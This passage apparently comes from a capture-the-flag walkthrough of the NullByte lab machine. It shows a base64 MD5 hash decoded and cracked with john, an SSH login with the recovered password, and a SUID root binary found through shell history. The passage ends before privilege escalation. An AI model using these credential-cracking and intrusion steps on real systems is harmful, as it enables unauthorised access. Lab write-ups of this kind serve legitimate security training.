 The password is encoded in base64, so I decoded it and saved it into a file, then I cracked it with john and got the password.

```console
root@kali:~$ echo -n "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" | base64 -d 2>/dev/null> mysql_hash.txt

root@kali:~$ john --format=raw-md5 mysql_hash.txt                                                        
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
omega            (?)
```

### Access via SSH

I tried to log in via SSH with the user **ramses** and the password **omega** and had access to the system.

```console
root@kali:~$ ssh -l ramses 192.168.179.152 -p 777
ramses@192.168.179.152's password:
ramses@NullByte:~$ id
uid=1002(ramses) gid=1002(ramses) groups=1002(ramses)
```

Listing the history I found the path to a file that ramses was running previously.

```console
ramses@NullByte:~$ cat .bash_history 
sudo -s
su eric
exit
ls
clear
cd /var/www
cd backup/
ls
./procwatch 
clear
sudo -s
cd /
ls
exit
```

This is a binary SUID with root permissions that runs the **ps** command.

```console
ramses@NullByte:~$ cd /var/www/backup/
ramses@NullByte:/var/www/backup$ ls -la
total 20
drwxrwxrwx 2 root root 4096 Aug  2  2015 .
drwxr-xr-x 4 root root 4096 Aug  2  2015 ..
-rwsr-xr-x 1 root root 4932 Aug  2  2015 procwatch
-rw-r--r-- 1 root root   28 Aug  2  2015 readme.txt
ramses@NullByte:/var/www/backup$ file procwatch 
procwatch: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=17d666a0c940726b29feedde855535fb21cb160c, not stripped
ramses@NullByte:/var/www/backup$ ./procwatch 
  PID TTY          TIME CMD
 1729 pts/0    00:00:00 procwatch
```